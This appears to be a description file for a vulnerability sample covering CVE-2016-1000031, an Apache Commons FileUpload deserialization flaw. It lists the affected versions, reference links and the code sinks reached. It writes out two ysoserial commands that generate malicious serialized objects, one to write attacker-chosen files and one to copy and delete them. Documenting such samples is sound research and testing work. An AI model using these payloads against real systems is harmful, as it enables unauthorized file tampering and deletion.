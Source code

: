 # Sample Description

It is the CVE-2016-1000031 (Apache Commons FileUpload DiskFileItem File Manipulation Remote Code Execution)


## Exploit Example


- Vulnerable version: `commons-fileupload-1.3.2.jar`
- Fixed version: `commons-fileupload-1.3.3.jar`

## External Links


- Bug Track URL: https://issues.apache.org/jira/browse/FILEUPLOAD-279
- Commit URL (fixed in version 1.3.3): http://repo1.maven.org/maven2/commons-fileupload/commons-fileupload/1.3.3/
- URLs with explanation details:
    - https://www.tenable.com/security/research/tra-2016-12
    - https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- Exploit Source: https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/FileUpload1.java
- DiskFileItem.java: https://github.com/apache/commons-fileupload/blob/c3161492712af0fab0ecde0fd294575acfb98d9d/src/main/java/org/apache/commons/fileupload/disk/DiskFileItem.java
- Apache Commons IO: https://github.com/apache/commons-io/tree/7c58d8a9919c5c9dbc1485a21d56bb3f37444060/src/main/java/org/apache/commons/io/output


## Exploit (Malicious Object)

### Exploit #1 (write.txt)
Generated with ysoserial using the command:

`java -jar ysoserial.jar FileUpload1 'write;hackedFolder/;new created with attacker-provided contents' > write.txt`

**Callstack:** `stack1.txt`


### Exploit #2 (copyAndDelete.txt)
Generated with ysoserial using the command:

`java -jar ysoserial.jar FileUpload1 'copyAndDelete;hackedFolder/file.txt;hackedFolder' > copyAndDelete.txt`

**Callstack:** `stack2.txt`

## Sinks

- `File.delete()`
- `new FileOutputStream()` (or `FileOutputStream.<init>`)
- `File.write()`
 